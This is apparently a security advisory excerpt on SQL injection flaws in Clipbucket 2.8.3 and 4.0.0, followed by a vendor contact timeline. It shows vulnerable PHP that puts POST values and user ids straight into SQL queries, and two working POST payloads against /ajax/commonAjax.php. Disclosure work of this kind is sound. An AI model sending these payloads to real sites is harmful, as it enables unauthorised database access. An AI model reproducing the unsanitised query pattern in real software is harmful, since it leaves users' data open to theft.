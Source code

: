 ```shell
//if($userquery->login_check('',true)){
if($vote == "yes"){
    $query = "UPDATE " . tbl("users") . " SET voted = voted + 1, likes = likes + 1
WHERE userid = {$userid}";
}else{
    //$query = "UPDATE " . tbl("users") . " SET likes = likes (- 1) WHERE userid =
{$userid}";
    $sel = "Select userid,username,likes From ".tbl("users")." WHERE userid =
{$userid}";
    $result = $db->Execute($sel);
     foreach ($result as $row )
        $current_likes = $row['likes'];
        $decremented_like = $current_likes-1;
     $query = "Update ".tbl("users")." Set likes = $decremented_like Where userid
= $userid";
}
[...]

URL     : http://$HOST/ajax/commonAjax.php
METHOD  : POST
PAYLOAD : mode=emailExists&email=1' or '1'='1

The source code excerpt below shows the vulnerable code
VULN. FILE : /ajax/commonAjax.php
VULN. CODE :
[...]
$email = $_POST['email'];
$check = $db->select(tbl('users'),"email"," email='$email'");
if (!$check) {
    echo "NO";
}
[...]

URL     : http://$HOST/ajax/commonAjax.php
METHOD  : POST
PAYLOAD : mode=userExists&username=1' or '1'='1

The source code excerpt below shows the vulnerable code
VULN. FILE : /ajax/commonAjax.php
VULN. CODE :
[...]
$username = $_POST['username'];
$check = $db->select(tbl('users'),"username"," username='$username'");
if (!$check) {
    echo "NO";
}
[...]


Vulnerable / tested versions:
-----------------------------
Clipbucket version 2.8.3 and version 4.0.0 have been tested. These versions were
the latest at the time the security vulnerabilities were discovered.


Vendor contact timeline:
------------------------
2017-10-17: Contacting vendor through email.
2017-10-18: Vendor asking for additional details.
2017-10-19: Replied to vendor.
2017-10-26: Request update from vendor, no response.
2017-11-09: Request update from vendor.
2017-11-09: Vendor response with security patches.
```
